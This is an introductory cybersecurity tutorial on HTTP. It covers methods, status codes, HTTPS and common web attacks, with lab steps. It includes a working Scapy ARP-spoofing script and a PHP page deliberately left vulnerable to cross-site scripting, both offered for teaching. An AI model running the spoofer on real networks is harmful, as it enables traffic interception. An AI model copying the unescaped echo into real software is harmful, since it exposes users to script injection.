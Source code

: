 ### Introduction to HTTP in Cybersecurity

**HTTP Overview**
- **HTTP (HyperText Transfer Protocol)** is the foundation of data communication on the World Wide Web. It's a protocol used for transferring web pages from servers to browsers.
- HTTP is stateless, meaning each request from a client to a server is independent.
- Standard HTTP runs over port 80, while HTTPS (HTTP Secure) runs over port 443.

**HTTP in Cybersecurity**
- **HTTP vulnerabilities** can be exploited to carry out various cyberattacks, making it a critical area of focus in cybersecurity.
- Common attacks include **Man-in-the-Middle (MitM)**, **Cross-Site Scripting (XSS)**, **SQL Injection**, and **Session Hijacking**.
- Understanding HTTP methods (GET, POST, PUT, DELETE) is essential, as they can be exploited in different ways.

### Key Concepts

#### 1. **HTTP Methods**
   - **GET**: Requests data from a specified resource. Can be cached and remains in the browser history.
   - **POST**: Submits data to be processed to a specified resource. More secure than GET as data is not stored in the browser history or URL.
   - **PUT**: Uploads a representation of the specified resource.
   - **DELETE**: Deletes the specified resource.

#### 2. **HTTP Status Codes**
   - Inform users about the result of their HTTP requests.
   - **200 OK**: The request was successful.
   - **404 Not Found**: The resource could not be found.
   - **500 Internal Server Error**: The server encountered an unexpected condition.

#### 3. **HTTPS**
   - An extension of HTTP with security features. It uses SSL/TLS to encrypt data transferred between the client and server, preventing eavesdropping and tampering.
   - Essential for protecting sensitive data, such as personal information, login credentials, and payment details.

### Common HTTP Vulnerabilities

1. **Man-in-the-Middle (MitM) Attack**
   - Occurs when an attacker intercepts communication between two parties to eavesdrop, steal, or alter data.
   - HTTPS helps prevent MitM attacks by encrypting the data.

2. **Cross-Site Scripting (XSS)**
   - Involves injecting malicious scripts into webpages viewed by other users.
   - Can be used to steal cookies, session tokens, or other sensitive information.

3. **SQL Injection**
   - Occurs when an attacker inserts malicious SQL code into a query through a form input or URL.
   - Can lead to unauthorized access to the database.

4. **Session Hijacking**
   - An attacker steals a user's session ID to impersonate them.
   - Can be mitigated by using HTTPS, secure cookies, and proper session management.

### Practical Examples

#### 1. **MitM Attack Simulation**
   - **Objective**: Demonstrate how an attacker can intercept HTTP traffic.
   - **Tool**: Wireshark or Ettercap
   - **Steps**:
     1. Set up a virtual environment with a victim and attacker machine.
     2. Use a tool like Wireshark to capture HTTP traffic between the victim and a website.
     3. Demonstrate how sensitive information can be intercepted.

#### 2. **Cross-Site Scripting (XSS) Demo**
   - **Objective**: Show how XSS works and its potential impact.
   - **Tool**: DVWA (Damn Vulnerable Web App)
   - **Steps**:
     1. Set up DVWA on a local server.
     2. Demonstrate how to inject a simple script into a form field.
     3. Show how the injected script can steal cookies or manipulate the webpage.

### Educational Resources

**Code Examples:**
1. **Basic HTTP Server in Python**:
   - Use Python's `http.server` module to create a simple HTTP server.
   - Demonstrate serving different HTTP methods and handling requests.

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer

class MyHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(b"Hello, world!")

server = HTTPServer(('localhost', 8080), MyHandler)
print("Starting server on http://localhost:8080")
server.serve_forever()
```

2. **MitM Attack Simulation Script**:
   - Python script using Scapy to perform a basic ARP spoofing attack.
   - **Note**: Only use this in a controlled environment with permission.

```python
from scapy.all import *

def spoof(target_ip, spoof_ip):
    packet = ARP(op=2, pdst=target_ip, hwdst=getmacbyip(target_ip), psrc=spoof_ip)
    send(packet, verbose=False)

while True:
    spoof("192.168.1.5", "192.168.1.1")
    spoof("192.168.1.1", "192.168.1.5")
    time.sleep(2)
```

3. **XSS Vulnerability Demonstration**:
   - Simple HTML page vulnerable to XSS for educational purposes.

```html
<!DOCTYPE html>
<html>
<body>
  <form action="search.php" method="GET">
    <input type="text" name="query">
    <input type="submit" value="Search">
  </form>
  <?php
    if (isset($_GET['query'])) {
        echo "Search results for: " . $_GET['query'];
    }
  ?>
</body>
</html>
```

This material provides a basic introduction to HTTP in the context of cybersecurity. It includes a theoretical overview, practical examples, and educational resources. You can use the videos and code examples to illustrate the concepts and demonstrate real-world scenarios.
